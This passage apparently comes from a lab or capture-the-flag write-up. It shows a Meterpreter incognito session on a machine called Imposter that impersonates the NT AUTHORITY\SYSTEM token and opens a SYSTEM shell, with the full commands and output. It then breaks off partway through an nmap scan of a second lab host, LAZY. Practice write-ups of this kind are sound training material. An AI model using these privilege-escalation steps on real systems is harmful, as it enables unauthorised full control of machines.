From here we can see we have the `SeDebugPrivilege` which we can exploit using meterpreter:
```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IMPOSTER\lian
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```
Finally, type shell and we will have a shell as SYSTEM:
```
meterpreter > shell
Process 732 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami & hostname

nt authority\system
Imposter
```

## LAZY

### NMAP
```
Nmap scan report for 172.31.1.1
Host is up (0.054s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 8f:fd:3e:5e:b1:0e:c8:ff:5d:34:2a:7e:65:b3:58:7a (DSA)
|   2048 93:41:e8:35:92:a3:ed:b8:de:42:7d:9f:fc:82:67:24 (RSA)
|_  256 6a:0c:be:0d:83:b8:9d:03:c8:9f:47:e0:8b:f1:a3:c0 (ECDSA)
80/tcp  open  http        nginx 1.1.19
|_http-server-header: nginx/1.1.19
|_http-title: Welcome to nginx!
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.6.25 (workgroup: WORKGROUP)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h29m58s, deviation: 4h56m59s, median: -1s
|_nbstat: NetBIOS name: LAZY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
```